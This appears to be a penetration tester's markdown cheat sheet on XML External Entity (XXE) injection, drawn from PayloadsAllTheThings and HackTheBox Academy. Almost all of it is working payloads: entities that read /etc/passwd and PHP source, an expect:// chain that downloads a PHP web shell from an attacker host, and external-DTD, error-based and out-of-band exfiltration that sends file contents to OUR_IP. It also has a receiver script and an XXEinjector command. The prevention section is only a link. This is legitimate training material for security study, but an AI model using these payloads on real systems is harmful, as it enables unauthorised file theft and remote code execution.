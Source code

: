 ## XXE - XML External Entity (XXE)
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

### Reading file :

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

### Using php wrapper : 
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### Chains XXE to RCE :

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

```bash
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ python3 -m http.server 80
```

### Advanced exfiltration using CDATA :
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

```bash
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Submit :
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<SNIP>
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

https://academy.hackthebox.com/module/134/section/1206

### Error Based XXE

```xml (xxe.dtd)
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Submit :
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

### Out-of-band Data Exfiltration
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

```php (index.php)
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```bash
$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Payload to submit : 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

#### Automated OOB Exfiltration
https://github.com/enjoiz/XXEinjector

```bash
$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

### XXE Prevention
https://academy.hackthebox.com/module/134/section/1218